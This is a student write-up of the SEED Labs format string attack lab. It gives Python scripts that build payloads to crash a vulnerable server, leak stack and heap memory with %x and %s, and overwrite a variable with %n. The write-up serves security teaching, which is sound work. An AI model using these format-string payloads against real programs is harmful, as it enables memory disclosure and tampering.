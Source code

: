 # SEED Labs – Format String Attack Lab


## Task 1: Crashing the Program

During the assigned task, we were tasked with sending an input to the server to intentionally crash it. To achieve this, we opted for a straightforward payload, using `%s`. The program crashed as a result of the `printf` function attempting to print a string by referencing an invalid heap address. Consequently, the program terminated due to the invalid memory access without crashing the server because the program runs in a child process spawnedby the server program.

## Task 2: Printing Out the Server Program’s Memory

### Task 2.A: Stack Data

In this task we were asked to discover how many %x where needed to print out the first 4 bytes. To do that we used the "buildstring.py" provided to us and modified so that the buffer sent would have the first 4 bytes to be 0xaabbccdd to make it easier to find it and also 100 * "%.8x" to print the address until the first four bytes.

```python
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0xaabbccdd
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%.8x-"*100

fmt  = (s).encode('latin-1')
content[4:8+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```


After getting the response from the server we only countent backwards to get the exact number, and discover the number to be 64. So to get to the first 4 bytes it was necessary to used 64 %x.

![Output do Servidor](/images/64Xs.png)

### Task 2.B: Heap Data

In this assignment, our objective is to leverage the previously acquired information. Specifically, we aim to utilize the first four bytes of the buffer to store the address of a valid heap pointer. This pointer, in turn, directs us to a string containing the secret message. To do that we used this code: 

```python
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%.8x-"*63 + "%s"

fmt  = (s).encode('latin-1')
content[4:8+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

With this code we managed to get the secret message:
![Secret Message](/images/secret_message.png)

## Task 3: Modifying the Server Program’s Memory

### Task 3.A: Change the value to a different value
In the context of this task, our goal is to manipulate the value of a variable. To accomplish this, we utilize a potentially perilous string formatter. Unlike traditional formatters that solely facilitate the retrieval of values from the stack, the formatter "%n" goes a step further by allowing the insertion of a value into a specific address on the stack. While "%n" typically serves to tally the number of characters written by `printf`, its use in this scenario poses a risk, as it can be exploited to alter values within the stack.

Building upon our existing knowledge, a straightforward modification involves encoding the target stack address in the initial four bytes of the buffer. Subsequently, at the previously identified position, we insert the "%n" formatter. This strategic manipulation capitalizes on the formatter's ability to write the count of bytes written so far, transforming it from a benign character count mechanism into a mechanism for modifying stack values.
Used code: 

```python
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%.8x-"*63 + "%n"

fmt  = (s).encode('latin-1')
content[4:8+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

With this code we managed to modify the targets value:
![Target_variable_new_value](/images/target_variable.png)

### Task 3.B: Change the value to 0x5000
Achieving a targeted value alteration requires a slightly more intricate approach. This can be accomplished by increasing the number of characters to be printed by `printf`. Utilizing the precision modifier, as employed previously, allows us to display a significantly larger number of characters through `printf`. To calculate the necessary increment, we subtract the last acquired value (0x23b in our case, obtained solely by printing memory) from the desired value of 0x5000.

Used code:
```python
#!/usr/bin/python3
import sys

N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%.8x-"*62 + "%.19918x" +"%n"

fmt  = (s).encode('latin-1')
content[4:+len(fmt)] = fmt

with open('badfile', 'wb') as f:
  f.write(content)
```

![Target_variable_set_to_5000](/images/target0X5000.png)